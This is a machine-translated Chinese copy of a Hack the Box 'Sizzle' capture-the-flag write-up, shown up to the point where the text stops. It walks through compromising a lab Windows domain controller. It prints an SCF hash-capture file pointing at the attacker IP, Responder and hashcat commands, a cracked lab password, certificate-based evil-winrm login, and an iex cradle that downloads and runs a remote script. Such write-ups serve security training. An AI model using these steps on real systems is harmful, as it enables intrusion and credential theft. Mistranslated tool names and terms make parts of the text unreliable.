# 黑盒子——Sizzle 报道

> 原文：<https://infosecwriteups.com/hack-the-box-sizzle-write-up-62f3464701be?source=collection_archive---------0----------------------->



https://www.hackthebox.eu/home/machines/profile/169

Sizzle 是来自 [Hack the Box](https://www.hackthebox.eu/) 的疯狂难度机器，由 [mrb3n](https://www.hackthebox.eu/home/users/profile/2984) 和 [lkys37en](https://www.hackthebox.eu/home/users/profile/709) 创建，他们是目前可用的 Hack the Box Pro 实验室中三分之二的作者。

Sizzle 是一款相当旧的机器，因为它是在 2019 年 1 月发布的。我决定在这个盒子上工作，因为我最近在近一个月前完成了 Hack the Box ' s Offshore(mrb3n 的 Pro Lab ),我想检查一下我解决这个问题有多舒服。我不会解释在我的[森林文章](https://link.medium.com/kn9nOEK587)中已经解释过的概念/技术。你可以参考那篇文章了解详情。

总结一下解决箱子问题的步骤:

## 初始立足点:

*   识别充斥着误导信息的可写份额
*   放下。scf 文件收集 NetNTLMv2 哈希，然后破解它
*   向 AD CS certsrv 进行身份验证，并以 amanda 的身份签署 CSR
*   通过 HTTPS PS 远程登录

## 阿曼达→ Mrlky

*   Kerberoasting

## Mrlky →管理员

*   获取哈希的 DCsync

如果你遇到/执行了这些技术，基本上解决盒子感觉很短。

## 使用的工具:

*   [目录搜索](https://github.com/maurosoria/dirsearch)
*   [smbmap](https://github.com/ShawnDEvans/smbmap)
*   [cme](https://github.com/byt3bl33d3r/CrackMapExec)
*   [响应者](https://github.com/SpiderLabs/Responder)
*   邪恶的温姆
*   [警犬](https://github.com/BloodHoundAD/BloodHound)
*   [发红](https://github.com/GhostPack/Rubeus)
*   [撞击](https://github.com/SecureAuthCorp/impacket)

## 扫描:

我首先运行`masscan`来快速识别开放的端口:

```
masscan -p1-65535,U:1-65535 10.10.10.103 --rate=1000 -e tun0
```



根据开放的端口，如 53，389，636，我可以有把握地假设这个机器是一个 Windows 服务器，作为域控制器。然后，我继续运行默认的`nmap`扫描:

```
sudo nmap -sV -sC -oA nmap/initial 10.10.10.103 -vv -n
```

然后我检查有趣的结果。

## FTP —端口 21

从 nmap 结果来看，似乎是`nmap`脚本 *ftp-anon* 识别出允许匿名 ftp 登录。



我连接到 ftp 服务并检查任何文件，但没有发现任何有趣的东西。

```
ftp 10.10.10.103 
Connected to 10.10.10.103.
220 Microsoft FTP Service
Name (10.10.10.103:sif0): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

> 我认为在 ftp 的 RFC 上，使用你的电子邮件来跟踪匿名登录是理想的，但这不是必须的。但是基本上任何密码都可以。

FTP 上没什么有趣的。

## HTTP —端口 80

检查端口 80，支持有趣的 HTTP 方法，但这些方法通常会导致信息泄露或绕过身份验证。但由于它的 IIS 10，我没有检查了。



查看网页时，我看到了一张熏肉正在热炒的 GIF 图片？



然后，我使用 dirsearch 运行了一个目录暴力:

```
dirsearch.py -u [https://10.10.10.103/](https://10.10.10.103/) -e aspx,txt
```



有趣的目录是/certsrv 和/certenroll。/certsrv 更有趣，因为状态代码是 401(这意味着我们未经授权，通常表示必须有 HTTP auth)。我继续列举 Windows 端口。

## RPC、Netbios、Ldap —端口 135、139、389

这些通常允许空会话(不需要用户和密码)，最终导致对象(用户、计算机等)的枚举。)在域中。



值得注意的是，端口 389 为我提供了一个证书。

```
ssl-cert: Subject: commonName=sizzle.HTB.LOCAL                                                                                                                               
| Subject Alternative Name: othername:<unsupported>, DNS:sizzle.HTB.LOCAL                                                                                                      
| Issuer: commonName=HTB-SIZZLE-CA/domainComponent=HTB                                                                                                                         
| Public Key type: rsa                                                                                                                                                         
| Public Key bits: 2048                                                                                                                                                        
| Signature Algorithm: sha256WithRSAEncryption                                                                                                                                 
| Not valid before: 2020-07-14T05:50:14                                                                                                                                        
| Not valid after:  2021-07-14T05:50:14                                                                                                                                        
| MD5:   bd32 c0f4 6546 7f24 8e28 e47d 55e4 c192                                                                                                                               
| SHA-1: 17ea 3a28 8d36 9a5a 7498 3393 d5ac 8013 9d76 70af
```

所以 DNS 域名最有可能是 HTB.LOCAL。然后我在`ldapsearch`上尝试命令并使用`ldapdomaindump`，但是没有给出新的信息。

## HTTPS—443 端口

在检查 443 的结果时，我没有发现任何有趣的东西。



## SMB —端口 445

然后，我开始为 SMB 枚举。我首先使用`smbclient`通过空会话列出股票:

```
smbclient -L 10.10.10.103
```



有趣的股份有 *CertEnroll、部门股份、运营*。ADMIN$、C$、NETLOGIN 和 SYSVOL 共享是 Windows 上的内置共享，因此在结果中包含它们是很常见的。然后我使用`smbmap`来检查一个未经认证的用户拥有什么权利:

```
/opt/smbmap/smbmap.py -H 10.10.10.103 -u '' -p ''
```



可悲的是，我什么也没得到。然后我去了`Crackmapexec(cme)`上市。

```
/opt/cme smb 10.10.10.103 --sharesSMB         10.10.10.103    445    SIZZLE           [-] Error enumerating shares: SMB SessionError: STATUS_USER_SESSION_DELETED(The remote user session has been deleted.)
```

我得到一个错误。好像不能用`smbmap`和`cme`上市股票，决定用`smbclient`手动做。使用`smbclient`检查*操作*共享，我试图使用`dir`命令列出里面的内容，但是访问被拒绝:


然后我连接到*部门共享*共享，并列出里面的内容:



有意思。很多目录。我可以在`smbclient`提示符下使用`recurse`递归地列出目录。可能的用户列表如下:


HR 下的目录:



税收下的目录:



\ZZ_ARCHIVE 下的目录:



*\ZZ_ARCHIVE* 目录下好像有很多文件。值得注意的是，文件大小和创建时间是相同的。然后我在我的本地机器上下载了随机文件来检查它们的内容。



然后我对这些文件运行`md5sum`,发现它们有相似的散列。



然后我决定下载共享上的所有文件(不支持 opsec！)来识别是否有一个不同的文件。



`-D`标志设置共享下的当前工作目录。`-c`标志是`smbclient`命令，将在您使用`-D`标志设置的目录上执行。

```
smbclient -D "\ZZ_ARCHIVE" -c "dir;prompt;mget *" "\\\\10.10.10.103\\Department Shares"
```

然后，我还监视目录并计算它们的 md5:

```
watch -n 1 "echo;md5sum *"
```



下载完所有文件后，所有的散列都是相同的。我认为这是一个死胡同。然后我继续回到 HTTP 上找到的有趣的目录。

搜索`/certsrv`会让你看到各种各样的文章。除了微软的文档之外，我找到的一篇好文章是这样的。检查`/certsrv` 目录:



我得到一个 HTTP 认证提示。然后我尝试了常见的默认组合，如`admin:admin`和`admin:password`，并使用 Burp 拦截了它。



有趣的是授权是 NTLM。我还认为这里的工作凭证很可能是域用户的同一个登录。然后，我返回到*部门共享*共享下的*用户*目录，并注意到有一个公共目录，该目录的最后一次文件写入日期不同。然后，我尝试上传一个名为`test.txt`的虚拟文件，上传成功:



然后我创建了一个 Bash 一行程序，它将在每个目录上上传`test.txt`文件并列出其内容。

```
for user in $(cat users.txt); do smbclient -D "\Users" -N -c "prompt; cd $user; put test.txt; dir" "\\\\10.10.10.103\\Department Shares"; done
```

除了公共目录，我没有其他目录可以上传。

## SCF 获取 NetNTLMv2:

知道我可以上传文件到一个共享位置，这在 HTB 是一个经常发生的情况，然后我试着上传一个`SCF` (Shell 命令文件),其中包含一个到我的 IP 地址的路径。一旦用户点击了`SCF`文件，SIZZLE machine 将被认证为“点击”SCF 文件的用户。我不会深究技术细节，但是`challenge-respons`场景包括一个由用户密码加密的随机数。然后，我们可以捕获这些信息，并破解散列来获得用户的密码。SCF 文件的内容:

```
[Shell]
Command=2
Iconfile=\\10.10.14.3\sifo\doesntmatter
[Taskbar]
Command=ToggleDesktop
```

然后我运行`responder`，这是一个监听连接和捕获认证请求的工具。我将其设置为在 tun0 接口上监听:

```
responder -I tun0 
```

然后我把名为`@sifo.scf`的文件放在共享上。

> 我添加了“@”，因为这将在打开时将文件放在窗口/文件资源管理器列表的顶部。



过了一会儿，我从`HTB\amanda.`得到一个连接，然后我可以把散列放在一个文件上，用`hashcat`使用 rockyou 作为单词表来破解它。大多数时候，在 Hack the Box 机器中找到的散列使用 rockyou 是“可破解的”。`-m 5600`标志对应 NetNTLMv2。

```
hashcat -m 5600 amanda.netntlmv2 /usr/share/wordlists/rockyou.txt --force
```



`HTB\Amanda`的密码是`Ashare1972`。然后我列举更多。我从域的密码策略开始，所以我可以意识到潜在的锁定。

```
cme smb 10.10.10.103 -d HTB -u amanda -p Ashare1972 --pass-pol
```



因此锁定时间为 30 分钟，最小密码长度为 7。然后，我将这些共享列为`amanda`，希望可以对这些共享进行读/写访问。

```
cme smb 10.10.10.103 -d HTB -u amanda -p Ashare1972 --shares
```



没什么有趣的。我做的下一件事是使用`ldapdomaindump`枚举域:

```
ldapdomaindump 10.10.10.103 -u HTB\\amanda -p Ashare1972 -o ldapdomaindump/ --no-json --no-grep
```



所以域用户是`sizzler`、`mrlky`和`amanda`。值得注意的是`mrlky`和`amanda`属于`Remote Management Users`组，这意味着它们可以执行`PS Remoting`，后者运行在端口 5985(HTTP)或 5986(HTTPS)上。然后我试着通过`evil-winrm`登录，但是出错了。

```
evil-winrm -u amanda -i 10.10.10.103 -p Ashare1972
```

没有其他线索，于是我决定回到`/certsrv`并使用`amanda’s`凭证。我可以登录了。然后我意识到我必须在这里做一些工作，以便在`evil-winrm`(端口 5986)上使用 SSL 登录。我查看了`evil-winrm` 的旗帜，发现了一些我可能需要的旗帜:



所以我很可能需要某种公钥和私钥。我不会解释这里涉及的概念，因为它们令人困惑，我可能无法向你解释清楚。建议你自己看。



因为我以域用户`amanda`的身份登录，所以我尝试请求一个用户证书。这些步骤是请求一个证书- >用户证书- >密钥强度。



我现在可以看到我的浏览器上安装了一个证书。



然后我可以对这个文件进行备份，这将产生一个 [.p12](https://en.wikipedia.org/wiki/PKCS_12) 文件。我把它命名为`amanda`。



然后，我可以从. p12 文件中提取私钥文件:

```
openssl pkcs12 -in amanda -nocerts -out amanda.key
```

然后，我可以创建一个 CSR(证书签名请求),并在 AD CS 上提交其内容:

```
openssl req -newkey rsa:2048 -keyout amanda.key -nodes -out amanda.csr
```



我可以下载 DER 编码的证书并输入到`evil-winrm`:

```
evil-winrm -c certnew.cer -k amanda.key -i 10.10.10.103 -u amanda -p Ashare1972 -S
```

我可以以`amanda`的身份登录:



## 阿曼达→ Mrlky

然后我递归地列出了`C:\Users`目录下的文件:

```
gci -path c:\users\ -recurse -depth 3
```



然后我使用了`evil-winrm` 的一个内置特性，它绕过了[AMSI](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)，但是被阻止了，因为`PowerShell`似乎处于[受限语言模式](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)。



然后我试图加载`SharpHound`的`PowerShell`版本，这是`Bloodhound`的一个入口(注意，这是一个坏的 opsec，因为我已经有一个 CLM 被启用的提示)。

```
iex(new-object net.webclient).downloadString('[http://10.10.14.3/s.ps1'](http://10.10.14.3/s.ps1')); invoke-bloodhound -collectionmethod All --LdapUsername Amanda --Domain HTB --LdapPassword Ashare1972 --EncryptZip --ZipFilename sif0
```

